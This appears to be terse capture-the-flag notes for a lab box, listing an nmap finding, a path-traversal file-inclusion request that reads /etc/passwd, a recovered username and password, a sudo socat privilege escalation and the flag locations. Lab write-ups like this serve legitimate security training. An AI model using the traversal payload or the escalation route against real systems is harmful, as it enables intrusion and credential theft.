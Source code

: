 nmap: 22/ssh open

LFI exploit: /article?name=../../../../etc/passwd
 	-> username: falconfeast:rootpassword

 	-> user flag: user.txt
sudo : /usr/bin/socat
https://www.hackingarticles.in/linux-for-pentester-socat-privilege-escalation/ 
root access
	-> root flag: /root/root.txt